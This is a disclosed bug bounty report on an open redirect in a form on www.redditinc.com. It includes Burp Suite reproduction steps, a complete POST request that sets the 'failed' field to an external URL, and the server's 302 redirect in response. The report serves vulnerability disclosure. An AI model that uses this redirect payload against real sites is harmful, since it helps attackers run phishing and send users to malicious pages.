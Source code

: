 # Open Redirect through POST Request in www.redditinc.com

## Report Details
- **Report ID**: 1310230
- **URL**: https://hackerone.com/reports/1310230
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-18T16:48:06.007Z
- **Disclosed**: 2022-07-08T19:02:01.542Z

## Reporter
- **Username**: kratul
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:
Open redirection vulnerabilities arise when an application incorporates user-controllable data into the target of a redirection in an unsafe way. An attacker can construct a URL within the application that causes a redirection to an arbitrary external domain. This behavior can be leveraged to facilitate phishing attacks against users of the application. The ability to use an authentic application URL, targeting the correct domain and with a valid SSL certificate (if SSL is used), lends credibility to the phishing attack because many users, even if they verify these features, will not notice the subsequent redirection to a different domain.

## Steps To Reproduce:
Requests are sent from Burp Suite Community Edition

  1. Intercept Request of www.redditinc.com
  2. Send it to Repeater.
  3. Paste the HTTP Request given.
  4. Send.
  5. Copy link from the Show Response in Browser option.
  6. Paste it in Burp Browser and Run.

##Reference/Supporting Material:
[https://hackerone.com/reports/242243](https://hackerone.com/reports/242243)

## POC Video is attached



## HTTP Request:
```
POST /ama HTTP/2
Host: www.redditinc.com
Content-Type: multipart/form-data; boundary=----------YWJkMTQzNDcw
Cookie: OptanonAlertBoxClosed=2021-08-18T14:18:57.720Z;OptanonConsent=isIABGlobal=false&datestamp=Wed+Aug+18+2021+19%3A48%3A59+GMT%2B0530+(India+Standard+Time)&version=6.13.0&hosts=&consentId=bca87c2e-056e-4636-b582-be4622de55db&interactionCount=2&landingPath=NotLandingPage&groups=C0001%3A1%2CC0002%3A1%2CC0004%3A1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate
Content-Length: 1509
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4298.0 Safari/537.36

------------YWJkMTQzNDcw
Content-Disposition: form-data; name="action"

zendesk/default/submit
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="agreement"

yes
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="description"

555
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="email"

sample@email.tst
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="email_confirm"

sample@email.tst
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="failed"

http://google.com
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="name"

ghovjnjv
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="organization"

PENTESTING
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="participants"

ghovjnjv
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="redirect"

74bcbfb4f9c047fb4e467dd203ca3b30f2b31216551ab9db2bf44911c029d506thank-you/ama-form-step-1
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="subject"

AMA Request
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="success"

thank-you/ama-form-step-1
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="ticket_form_id"

360000307211
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="timeframe"

next-week
------------YWJkMTQzNDcw
Content-Disposition: form-data; name="timezone"

(GMT-05:00) Eastern Time (US & Canada)
------------YWJkMTQzNDcw--

```



## HTTP Response:
```
HTTP/2 302 Found
Server: nginx
Content-Type: text/html; charset=UTF-8
Permissions-Policy: interest-cohort=()
X-Robots-Tag: none
X-Powered-By: Craft CMS
Location: http://google.com
Cache-Control: private
Accept-Ranges: bytes
Date: Wed, 18 Aug 2021 15:30:48 GMT
Via: 1.1 varnish
Strict-Transport-Security: max-age=31536000; includeSubdomains
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
X-Xss-Protection: 1; mode=block
Content-Length: 0
```

## Impact

A remote attacker can redirect users from your website to a specified URL. This problem may assist an attacker to conduct phishing attacks, trojan distribution, spammers.

## Attachments
- Open_Redirect_through_POST_Request.mp4
